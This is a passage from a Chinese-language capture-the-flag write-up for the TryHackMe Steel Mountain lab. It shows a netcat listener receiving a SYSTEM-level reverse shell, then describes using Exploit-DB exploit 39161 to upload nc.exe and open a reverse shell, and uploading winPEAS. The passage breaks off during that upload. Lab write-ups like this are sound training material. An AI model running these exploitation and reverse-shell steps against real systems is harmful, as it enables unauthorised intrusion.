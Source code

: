    SERVICE_NAME: AdvancedSystemCareService9 
         TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
         STATE              : 2  START_PENDING 
                                 (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
         WIN32_EXIT_CODE    : 0  (0x0)
         SERVICE_EXIT_CODE  : 0  (0x0)
         CHECKPOINT         : 0x0
         WAIT_HINT          : 0x7d0
         PID                : 2364
         FLAGS              : 
   ```
   ```
   ┌──(kali㉿kali)-[~/桌面/THM/steelmountion/PowerUp]
   └─$ nc -nlvp 1234
   listening on [any] 1234 ...
   connect to [10.11.61.123] from (UNKNOWN) [10.10.205.47] 49253
   Microsoft Windows [Version 6.3.9600]
   (c) 2013 Microsoft Corporation. All rights reserved.

   C:\Windows\system32>whoami
   whoami
   nt authority\system
   ```

+ 提升权限后拿flag,路径为：``C:\Users\Administrator\Desktop>``

## 不使用Metasploit，进行权限获取并提权

+ 这里使用powershell和winPEAS 来枚举目标系统并收集相关信息以提权到管理员用户 
   + [winPEAS下载](https://github.com/carlospolop/PEASS-ng/releases/tag/20221009)

+ 利用同样的CVE: [exp.py下载](https://www.exploit-db.com/exploits/39161)

   ![Alt text](/style/image/image-266.png)

   + 查看exp.py文件需要：web服务和netcat二进制文件：

      ![Alt text](/style/image/image-267.png)

      + 下载netcat二进制文件：[nc.exe](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)
      
      + 优化exp.py文件满足实验所需：

         ![Alt text](/style/image/image-265.png)

+ 当前所需文件如下：

   ![Alt text](/style/image/image-270.png)

+ 启动web服务和本地监听并执行两次exp攻击：第一次执行会将SteelMountain/目录下的nc.exe上传到目标系统，第二次执行会发送一个反向shell回连到攻击机监听器

   ![Alt text](/style/image/image-268.png)
   ![Alt text](/style/image/image-269.png)
   ![Alt text](/style/image/image-271.png)
   ![Alt text](/style/image/image-272.png)
   ![Alt text](/style/image/image-273.png)

+ 利用powershell将winPEAS.exe上传至目标并运行：

   + 上传：
   
   ```
   C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd /users/bill/desktop
   cd /users/bill/desktop